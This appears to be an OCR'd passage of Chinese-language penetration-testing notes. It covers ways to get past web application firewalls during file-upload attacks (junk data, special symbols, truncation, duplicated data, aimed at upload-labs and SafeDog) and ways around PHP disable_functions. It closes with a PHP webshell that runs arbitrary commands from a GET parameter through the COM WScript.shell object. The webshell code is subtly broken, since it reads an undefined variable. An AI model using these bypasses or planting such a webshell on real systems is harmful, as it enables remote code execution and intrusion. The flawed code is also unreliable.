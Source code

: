 * **增加WAF负担**

如果WAF接收的数据包长度过长，可能会把部分数据包或者是数据包的部分内容进行无检测“放行”

如果站点的流量过大，为了保证网站的可用性，WAF可能会放弃对部分数据包的检测

* **构造异常数据包**

WAF在进行检测拦截的时候，一般比较死板。类似双写绕过、大小写绕过等方式都是基于此思路绕过



## 常见绕过方法

根据以上的绕过思路，并针对文件上传漏洞，可以派生出以下几种绕过方法（适用于upload-labs）

* 垃圾数据绕过

* 特殊符号绕过

  推测安全狗在进行匹配的时候，使用的是单引号或者是双引号进行匹配，取一个闭合引号中间的内容

* 截断绕过

* 重复数据绕过



## disable_function绕过

**PHP的危险函数比较多，稍微不注意就有可能导致漏洞产生。而且如果网站中被上传了webshell的话，webshell中也会调用类似system的函数来执行系统命令。**

**disable_function可以用于限制，网站中的某些函数，在disable_function列表中的函数会被禁止执行。即使网站中存在webshell，也会导致webshell不能发挥其功能。**

**disable_function**

**在对应php版本中的 php.ini文件中设置**



## disable_function绕过

**com组件绕过**

在windows中，PHP开发一般会启动一个扩展组件：php_com_dotnet

```php
绕过代码：
<?php
$command = $_GET['a'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$studio = $exec->StdOut();
$out = $StdOut->ReadAll();
echo $out;
?>
  访问 http://127.0.0.1/a.php?a=calc ，此时电脑上面会弹出一个计算器
```
